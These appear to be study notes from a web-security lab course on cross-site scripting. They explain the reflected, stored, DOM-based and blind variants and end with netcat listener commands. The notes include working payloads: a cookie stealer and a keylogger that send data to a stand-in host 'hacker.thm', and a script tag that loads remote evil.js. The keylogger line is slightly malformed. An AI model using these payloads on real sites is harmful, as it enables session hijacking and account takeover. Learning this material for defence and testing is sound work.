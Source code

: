 In XSS, the payload is the **JavaScript** code we wish to be executed on the targets computer, there are two parts to the payload, the intention and the modification.

**Intention**: What you wish the JavaScript to actually do
**Modification:** Changes to the code we need to make it execute as every scenario is different.

- **XSS Intentions:**

**Proof of Concept:**
```HTML
<script>alert('XSS');</script>
```

Simplest of payloads where all you want to demonstrate is that you can achieve XSS on a website, often done by causing an alert box to pop up on the page with a string of text.

**Session stealing:**
Details of user's session, such as login tokens, are often kept in cookies on the targets machine, the below Javascript code takes the target's cookie, base6 encodes the cookie to ensuure a successful transmissison and then posts it to a website under the hacker's control to be logged.

Once the threat actor  has these cookies, they can take over the target's session and be logged as that user.

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Keylogger**
Anything you type on the webpage will be forwarded to a website under the hacker's control.

```javascript
document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=') + btoa(e.key) );}
```

**Business Logic**
Calling a particular network resource or Javascript function, like **user.changeEmail()**

```javascript
user.changeEmail('attacker@hacker.thm');
```

Now that the email address for the account ahs changed, the attacker may perform a reset password attack.

### Reflected XSS

Happens when user-supplied data in a **HTTP Request** is included in the webpage source without any validation.

```
https://website.thm/?error=Invalid Input Detected
```

```HTML
<div class="alert alert-danger">
	<p>Invalid Input Detected</p>
</div>
```

The application doesn't cheeck for the contents of the error parameter, which allows the attacker to insert malicious code.

```
https://website.thm/?error=<script src="https://attacker.thm/evil.js"></script>
```

```HTML
<div class= "alert alert-danger">
	<p><script src="https://attacker.thm/evil.js"></script></p>
</div>
```

### Stored XSS

XSS is stored on the web application( in a database for example) and then gets run when other users visit the site or a web page.

A blog website that allows users to post comments, these comments contain Javascript, it will be stored in the database and now every other user on the website will have the Javascript run in ther browser.

Can **redirect users, steal user's session cookie, perform other website actions** while acting as the visiting user.

### DOM Based XSS

Where the JavaScript execution happens **directly in the browser** without any new pages being loaded or data submitted to the backend code.

DOM Based XSS can be challenging to test, you'd need to look for **partos f the code that access certain variables** that an attacker can have control over, such as "**window.location.x**" parameters.

You need to check how they are handled whether these values are ver written to the web page's DOM or passed to unsafe JavaSCript methods such as **eval()**

### Blind XSS

Similar to **Stored XSS** in that your payload gets stored on the website for another user to view, but in this instance, you can't see the paylaod working or able to test it against yourself first.

When testing for BLind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request), this way you know if and when your code is being executed.

A popular tool for Blind XSS attacks is XSS Hunter Express, although it's possible to make your own tool in JS, this tool will automatically **capture cookies, URLs, page contents** and more.

### Using Netcat for XSS

If we want to listen on port 9001

```shell
nc -l -p 9001
```

**-l**: indicates that we want to use Netcat on **listen mode.** while the **-p** option is used to specify the port number.

```shell
nc -n -l -v -p 9001
```

**-n**: Avoids resolution of hostnames via DNS, **-v** adds verbose.

```shell
nc -nlvp 9001
```

